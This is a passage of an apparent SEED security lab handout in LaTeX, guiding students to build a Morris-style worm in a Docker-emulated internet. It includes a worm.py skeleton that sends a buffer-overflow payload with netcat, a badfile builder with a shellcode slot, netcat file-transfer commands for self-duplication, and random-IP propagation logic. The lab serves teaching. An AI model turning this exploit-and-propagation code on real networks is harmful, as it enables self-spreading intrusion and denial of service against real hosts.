# Create the badfile
createBadfile() 

while True:
    targetIP = getNextTarget()

    # Send the malicious payload (smaller payload) to the target host
    # This is done via exploiting the server's vulnerability
    # It will block until the command exits
    subprocess.run([f"cat badfile | nc -w3 {targetIP} 9090"], 
                     shell=True, stdin=None, close_fds=True)

    # Sleep for 1000 seconds before attacking another host
    # We will reduce this value later
    time.sleep(1000) 
\end{lstlisting}



% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Creating the badfile} 

Let's first send a benign message to our target server.
We will see the following messages printed out by the 
target container (the actual messages you see may be different).

\begin{lstlisting}
// On the host machine 
$ echo hello | nc -w2 10.151.0.71 9090

// Messages printed out by the container
as151h-host_0-10.151.0.71  | Starting stack
as151h-host_0-10.151.0.71  | Input size: 6
as151h-host_0-10.151.0.71  | Frame Pointer (ebp) inside bof(): 0xffffd5f8  (*@\ding{80}@*)
as151h-host_0-10.151.0.71  | Buffer's address inside bof():    0xffffd588  (*@\ding{80}@*)
as151h-host_0-10.151.0.71  | ==== Returned Properly ====
\end{lstlisting}
 
For the sake of simplicity, we let the server print out some of its 
internal parameters (see lines marked by \ding{80}). Students 
are allowed to use these parameters when constructing their attacks. 
In particular, they need to modify Lines~\lineone and~\linetwo
inside \texttt{createBadfile()}.  

\begin{lstlisting}[language=Python]
def createBadfile():
   content = bytearray(0x90 for i in range(500))
   ##################################################################
   # Put the shellcode at the end
   content[500-len(shellcode):] = shellcode

   ret    = 0x00         (*@\lineone@*)  
   offset = 0x00         (*@\linetwo@*) 

   content[offset:offset + 4] = (ret).to_bytes(L,byteorder='little')
   ##################################################################

   # Save the binary code to file
   with open('badfile', 'wb') as f:
      f.write(content)
\end{lstlisting}
 

To test the attack, simply run the attack program \texttt{worm.py}.
It will generate the badfile, and then send its content to
the target server. If you see a smiley face printed out on the 
target machine, that means that you are attack has succeeded, and your 
injected code has been executed. 


\begin{lstlisting}
$ chmod +x worm.py
$ ./worm.py
\end{lstlisting}


\paragraph{Lab task.}
Please modify the provided skeleton code \texttt{worm.py}, launch the 
attack against the first target, and demonstrate that your attack is 
successful. 
 

% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{The Shellcode} 

The malicious code that we would like to run on the target 
server is called shellcode, which is typically written
using the assembly language and then converted to the 
binary machine code. 
In this lab, we only provide the binary version of a generic shellcode,
without explaining how it works, because it is non-trivial.
If students are interested in how exactly shellcode works and
want to write a shellcode from scratch, they
can learn that from a separate SEED lab called \textit{Shellcode Lab}.

The provided shellcode (listed below) 
executes \texttt{"/bin/bash -c commands"},
where \texttt{commands} are the commands put inside  
Lines~\lineone, \linetwo, and \linethree. 
Students can put whatever shell commands they want in 
these spaces (commands should be separated by semicolons or \texttt{\&\&}).
We provide enough space (180 bytes) as students may need to 
run a long list of commands in the 
subsequent tasks. 

When putting commands in these three lines, make sure 
never change their length, or the shellcode may not work.  
Each line is exactly 60 characters long (see the ruler in Line~\linefour).
When the shellcode runs, the * character at the end of Line~\linethree 
will be replaced by a binary zero to mark the end of the command string. 
The offset of the * character is hardcoded in the binary code, so
if the commands are longer than 180 bytes, they will be cut off.

\begin{lstlisting}[language=Python]
shellcode= (
   ... the binary code is omitted ... 
   "/bin/bash*"
   "-c*"
   " echo '(^_^) Shellcode is running (^_^)'; echo              "  (*@\lineone@*)
   "                                                            "  (*@\linetwo@*) 
   "                                                           *"  (*@\linethree@*) 
   "123456789012345678901234567890123456789012345678901234567890"  (*@\linefour@*) 
   # The line above serves as a ruler; it is not used by the shellcode.
).encode('latin-1')
\end{lstlisting}
 

The assembly code for this shellcode is provided in
the \texttt{Labsetup/shellcode} folder. Students who 
are interested in writing their own shellcode can 
modify the code there. Detailed instructions on 
how to write shellcode is given in a separate 
SEED lab, called \textit{Shellcode Development Lab}. 



% *******************************************
% SECTION
% *******************************************
\section{Task 3: Self Duplication} 

A malicious program can be called \textit{worm} if it
can spread from one place to another place automatically. 
To do that, the worm must be able to copy itself 
from one machine to another machine. This is called 
self duplication, which is the focus of this task.
There are two typical strategies used by worms 
to achieve self duplication. 

\begin{itemize}
  \item Approach 1: Put all the code inside the 
    malicious payload (i.e., the shellcode). Using this approach,
    the self-duplication part needs to be included 
    in the shellcode. Since the shellcode is typically written using 
    the assembly language, implementing sophisticated 
    functionalities may be quite challenging.

  \item Approach 2: Divide the attack code into two
    parts, a small payload that contains a simple pilot code, 
    and a larger payload that contains more sophisticated code. 
    The pilot code is the shellcode included in the malicious payload 
    in the buffer-overflow attack. 
    Once the attack is successful and the pilot code runs a shell
    on the target, it can  use shell commands to fetch the larger payload 
    from the attacker machine, completing the self duplication. 
    The more sophisticated program can be written using any language,
    such as C, Python, or shell script. 
\end{itemize}

The Morris worm uses the second approach. We do encourage 
students to try both both approaches, but only one is required. 
Instructors may choose to grant bonus points at their own
discretion for students who have implemented both, 
so check with your instructors.  


To use the second approach, we need to find a way to send
files from one computer to another. There are many ways to do that,
and students are encouraged to explore and find their own solutions.
Worms should not download the files from a central 
place (such as a website), because its creates a single point of failure 
for the worm; once this central place is shut down, the 
worm will stop crawling. A worm typically downloads the needed files from
its direct predecessor. Namely, if a worm crawls from A to B, 
and then from B to C, once it arrives at C, it should
copy the files only from C. 


To get files from another computer, we need to have a client 
and a server program. On our emulators, many client/server programs
have already been installed. Students can choose to use
whatever are available on the hosts. In the following, 
we show how to use the \texttt{nc} (or \texttt{netcat})  
command to download files. 
It can be used to start a TCP client and server. 

In the following example, we start the server on one computer,
and start the client on another computer. The server gets its input
from \texttt{myfile}, and send the content to the client. 
The client saves
whatever is received from the server to file \texttt{myfile}. This completes
the file transfer.

\begin{lstlisting}
// Server provides the file
$ nc -lnv 8080 < myfile

// Client gets the file from the server
$ nc -w5 <server_ip> 8080 > myfile
\end{lstlisting}
 
Typically, we need to start the server first, and then 
run the client program. However, we can start the client 
before running the server. We just need to use 
the \texttt{-w5} option on the client. 
With this option, the client will try to make a connection with
the server for 5 seconds. As long as the server can be started 
within this time window, the connection will go through.

In the example above, the server sends a file to the client.
We can send files in the opposite direction, i.e., the client
sends a file to the server. 

\begin{lstlisting}
// Server gets the file from client
$ nc -lnv 8080 > myfile

// Client provides the file
$ cat myfile | nc -w5 <server_ip> 8080
\end{lstlisting}
 

\paragraph{Lab task.} 
Add the self-duplication feature to your worm, so when
the buffer-overflow attack is successful, a copy of the 
worm, i.e., \texttt{worm.py} is copied to the 
victim machine. You can get a shell on the victim container,
and check whether a copy is created there or not.


%\paragraph{Question 1:} Which one is better, client to server or server to client?
%Please explain. 

%\paragraph{Question 2:} Some propose to use \texttt{wget} to download from
%a public server. Please comment. 

%\paragraph{Question 3:} Some propose to use \texttt{scp} to copy files.
%What are the challenges?




% *******************************************
% SECTION
% *******************************************
\section{Task 4: Propagation} 


After finishing the previous task, we can get the worm to
crawl from our computer to the first target, but 
the worm will not keep crawling. Students need to make changes
to \texttt{worm.py} so the worm can continue crawling after
it arrives on a newly compromised machine. 

Several places in \texttt{worm.py} need to be changed.
One of them is the \texttt{getNextTarget()}, 
which hard-codes the IP address of the next target. 
We would like this target addresses to be a new machine. 
The Morris worm uses several strategies to find the next 
attack candidate. 
For the sake of simplicity,
students just need to randomly generate an IP address. 
To further reduce the attack time, we provide the 
following prior knowledge (intentionally made vague)
for students to use when
they generate the IP address for the next target:

\begin{quote}
    The IP addresses of all the hosts in the emulator have the following
    pattern: \texttt{10.X.0.Y}, where \texttt{X} ranges from 
    \texttt{151} to \texttt{155}, 
    and \texttt{Y} ranges from \texttt{70} to \texttt{80}.  
\end{quote}
 
\paragraph{Generating random numbers.}
In Python, generating random numbers is quite simple.
The following code gives an example: it generates a random 
integer number from 100 to 200.

\begin{lstlisting}[language=Python]
from random import random

number = randint(100, 200)
\end{lstlisting}
 

\paragraph{Testing whether a machine is alive or not.}
Before attacking a randomly selected target, it is better
to check whether the target is alive or not. 
There are many ways to do that. 
One approach is to use the \texttt{ping} command to send 
an echo request to the target, and check
whether the target has sent back a reply.
%If \texttt{ping} receives a reply packet,
%it exits with code 0; otherwise, it exits with code 1 (no reply)
%or 2 (errors). 

In the following code snippet, we send out one ping packet (\texttt{-c1}) 
to the target \texttt{1.2.3.4}, wait one second (\texttt{-W1})  
for the reply, and then check whether the
output of the command contains \texttt{"1 received"}, indicating
that the reply has been received. 

%\begin{lstlisting}
%ret = subprocess.run(["ping -q -c1 -W1 1.2.3.4"], shell=True)
%if ret.returncode == 0:
%    print("alive")
%else:
%    print("error or not alive")
%\end{lstlisting}


\begin{lstlisting}[language=Python]
ipaddr = '1.2.3.4'
output = subprocess.check_output(f"ping -q -c1 -W1 {ipaddr}", shell=True)
result = output.find(b'1 received')

if result == -1:
   print(f"{ipaddr} is not alive", flush=True)
else:
   print(f"*** {ipaddr} is alive, launch the attack", flush=True)
\end{lstlisting}
 
 

%\begin{itemize}
%  \item The random approach
%  \item More advanced approach: using the information from the host,
%    such as ARP cache, etc., to find the candidates. This can be
%    bonus. Students may need to run the emulator code to 
%    reconfigure the emulator. 
%\end{itemize}


\paragraph{Lab tasks.}
After finishing this step, students need to demonstrate that their worms can 
spread from one computer to another, and eventually reach the entire 
nano internet. In your initial attack, you should only release the worm 
on one of the nodes, instead of keep
attacking the other nodes from your attack machine. We want the 
worm to attack others automatically. 

Let the attack continue for some time, and keep a close eye 
on the CPU and memory usages. Once the CPU usage hits 100
percent, shut down the nano internet (using \texttt{dcdown} or
\texttt{"docker-compose down"}). If you wait too long, your VM
may freeze, i.e., you have successfully brought down the internet. 

You can use the \texttt{htop} command to observe the resource usages. If
your machine does not have this command, you can easily install it 
using the following command:

\begin{lstlisting}
$ sudo apt update && sudo apt install htop
\end{lstlisting}
 



% *******************************************
% SECTION
% *******************************************
\section{Task 5: Preventing Self Infection} 

It was believed that the Morris worm did not intend to cause real harms to the 
target computers, but a bug in its code caused a 
denial-of-service attack on the targets. The main reason
was that the worm failed to prevent self infection. 
Once a computer is compromised, an instance of the worm
will run in a separate process. If this computer gets
compromised again, a new instance of the worm will 
start running. If the worm does not have a mechanism to 
check whether a computer has already been infected or not,
many new instances of the worms will be spawn, consuming
more and more resources, and eventually bring
the target machines to their knees or, in many cases, crash
them. The Morris worm does have a checking mechanism,
but there was a bug in the code. 


In this task, students need to add such a checking mechanism
to their worm code to ensure that only one instance 
of the worm can run on a compromised computer. 
Once this is implemented, during the attack, the
CPU usage will unlikely reach the 100 percent. 
Please provide the evidence in your lab report. 


%\begin{itemize}
%  \item Simple approach: create a folder or file. Immunization is easy.
%  \item How to make the immunization difficult? Bonus points. Study
%    different worm's mechanisms. 
%\end{itemize}
 

% Leave this part to ransomware
\begin{comment}
% *******************************************
% SECTION
% *******************************************
\section{Task 6: Implementing a Kill Switch} 

Some worms have a kill switch, so the worm will stop
infecting others if the kill switch is turned on. 
This is a global switch, and it gives the attacker
a control over when to stop the attacks. 
The Morris worm did not have
such a kill switch, but recent worms do, such as
the WannaCry ransomware, which is technically a worm. 
The worm tries to connect to an unregistered web domain. 
If the connection fails, it'll proceed with the infection. 
If the connection succeeds, the program will stop the attack.

... 
\end{comment}



% *******************************************
% SECTION
% *******************************************
\section{Task 6: Releasing the Worm on the Mini Internet} 

In this task, we will switch to a larger internet, the mini internet. 
This task is more for enhanced satisfaction, as seeing
how the worm spread in a more realistic emulated internet is more 
satisfactory. 

For this setup, at least 8GB of RAM and 2 cores are required 
for the VM; otherwise, the emulator will be very slow. Go to your VM's settings
from VirtualBox, make changes accordingly (the VM needs to be shutdown
before these changes can be made).

\paragraph{Note for students and instructors:} 
If students' machines are not powerful enough, 
they should discuss with their instructors to 
find an alternative, such as using a public machine 
or a cloud machine. In our class at the Syracuse University, 
we did encounter this situation. We just asked these students (only a small number)
to submit their code, and we (the TA or instructor) tested the attack 
code against our own emulator to see the result. Students can 
still use the nano internet setup to do their preliminary testing. 

%Students should not be penalized if their computers are not powerful enough.
%Instructors can also choose to make this task optional, as it is 
%not essential; its primary goal is to 
%provide an enhanced experience (it does make the attack much more 
%fun than doing it on the nano internet). 



% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Start the Mini-Internet Emulator} 

The container files for this emulator are stored 
in the \texttt{Labsetup/internet-mini} folder. Go to this folder,
run the following commands to build containers and start them.


\begin{lstlisting}
$ dcbuild  # alias for "docker-compose build" 
$ ./z_start.sh
\end{lstlisting}
 
Due to a bug in the \texttt{docker-compose} program, 
simultaneously bringing up these 200+ containers using 
\texttt{"docker-compose up"} will fail.
Using the command in \texttt{z\_start.sh}, we bring 
up the containers 10 at a time to avoid the problem. 
Please do not add any file or folder in the \texttt{internet-mini/}
folder, or the command will fail. 
If you do want to add files/folders in this folder, you can modify the 
\texttt{grep} command in \texttt{z\_start.sh} 
to exclude them. 
Once the emulator starts running, we can see its networks
using the browser (see Figure~\ref{fig:mini-internet}).


Using this method, we have to bring up the containers in the detached
mode (the purpose of the \texttt{-d} option). Therefore, we will not be able
see the logs printed out by each container. To see the logs, 
we can use the following command (use \texttt{Ctrl-c} to
exit without stopping the container):

\begin{lstlisting}
$ docker logs -f <container ID>
\end{lstlisting}

Due to the large number of containers, interacting 
with the containers using the Map is slow. It is better to directly
interact with the containers using the docker command. 
The following command lists all the containers in the AS-153 autonomous
system. For the sake of convenience, we include the autonomous 
system number and the IP address in the container name.

\begin{lstlisting}
$ dockps | grep as153
9869c5085bf7  as153h-host_0-10.153.0.71
843a920c60f5  as153h-host_10-10.153.0.81
286d97c102dc  as153h-host_1-10.153.0.72
...
\end{lstlisting}
 


\begin{figure}[htb]
  \begin{center}
    
\includegraphics[width=0.5\textwidth]{\wormFigs/mini-internet.jpg}
  \end{center}
  \caption{The mini internet}
  \label{fig:mini-internet}
\end{figure}
 




% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Launch the Attack} 

The attack code used on the nano internet should be able to 
work directly in the mini internet, 
although students may need to change their random number
generation to cover the IP addresses in a larger range. 
The following facts can be used: 

\begin{quote}
    The IP addresses of all the hosts in the emulator have the following
    pattern: \texttt{10.X.0.Y}, where \texttt{X} ranges from 
    \texttt{151} to \texttt{180}, 
    and \texttt{Y} ranges from \texttt{70} to \texttt{100}.  
\end{quote}


\textbf{You should only release the worm on one of the nodes, instead of keep
attacking the other nodes from your attack machine.}
The worm is supposed to spread across the Internet automatically.
You do need to provide evidences to show this behavior.

By typing the \texttt{"icmp and dst 1.2.3.4"} in the filter box,
we can visualize which machines are infected by the worm. 
If you have implemented 
everything correctly, the spreading rate will be exponential. 
A demonstration video of the attack can be found from 
\href{https://youtu.be/2VZV-aFoVjk}{\underline{this link}} 
on YouTube.


For this task, students should record a short
demonstration video, similar to the provided 
sample video. During the demo, the 
map should be used to visualize the spreading
of the worm. Students should submit this 
video (unless the instructor says the otherwise). 




% *******************************************
% SECTION
% ******************************************* 
\section{Submission}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

You need to submit a detailed lab report, with screenshots,
to describe what you have done and what you have observed.
You also need to provide explanation
to the observations that are interesting or surprising.
Please also list the important code snippets followed by
explanation. Simply attaching code without any explanation will not
receive credits.

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
For Task 6, as indicated in the task, 
a short demonstrate video should also be submitted.



% *******************************************
% SECTION
% *******************************************
\section*{Acknowledgment} 

This lab was developed with the help of several students 
in my \textit{Computer Security (CSE643)} class 
at the Syracuse University in Fall 2021. 
The SEED project was funded in part 
by the grants from the US National Science Foundation
and Syracuse University.


% *******************************************
% SECTION
% *******************************************
\begin{thebibliography}{90}

\bibitem{wiki:worm}
Wikipedia contributors, ``Morris worm --- Wikipedia, The Free Encyclopedia'', 
\url{https://en.wikipedia.org/w/index.php?title=Morris_worm&oldid=1059312237}

\bibitem{spafford:worm}
Spafford, Eugene, ``An analysis of the worm'', December 8, 1988, Purdue University. 
\end{thebibliography}



\end{document}
